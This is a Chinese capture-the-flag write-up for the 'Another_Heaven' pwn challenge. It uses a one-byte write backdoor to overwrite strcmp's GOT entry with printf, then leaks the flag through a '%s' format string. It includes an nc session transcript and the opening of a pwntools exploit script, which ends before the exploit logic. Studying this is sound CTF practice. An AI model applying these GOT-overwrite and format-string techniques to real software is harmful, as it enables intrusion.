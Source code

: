 #### 0x0 程序分析

反汇编分析代码，发现有一个`Pxxxhub`的后门，可修改`1`字节任意内存：

```c
puts("There is a back door...\"Hacked by Annevi!\"");
*addr = readi();
read(0, *addr, 1uLL);
```

`init()`中读了`flag`，随后有个`strcmp`对比`password`与`flag`

```c
printf("Password:", account);
read_n(password, 48);
if ( !strcmp(password, flag) )
{
puts("Welcome!The emperor Qie!");
puts("|Recommended|Hottest|Most Viewed......");
result = 0;
}
```

#### 漏洞利用

用修改`1`字节任意内存的后门改写`GOT`表，把`strcmp`改为`printf`

然后就是骚操作了：读`password`时，输入`%s`，这时候：

> `strcmp(password, flag)`相当于`printf("%s",flag)`

```shell
% nc 47.103.214.163 21001
There is a back door..."Hacked by Annevi!"
6299752
&
==========================================
____
|  _ \ ___  _ __ _ __ | | | |_   _| |__  
| |_) / _ \| '__| '_ \| |_| | | | | '_ \ 
|  __/ (_) | |  | | | |  _  | |_| | |_) |
|_|   \___/|_|  |_| |_|_| |_|\__,_|_.__/ 

==========================================
Login System
Account:Password:%s
hgame{VGhlX2Fub3RoZXJfd2F5X3RvX2hlYXZlbg==}Wrong Password!
Forgot your password?(y/n)
```

#### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './Another_Heaven'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
p = process(local_file)
libc = ELF(local_libc)
elif len(sys.argv) > 1:
if len(sys.argv) == 3:
host = sys.argv[1]
port = sys.argv[2]
```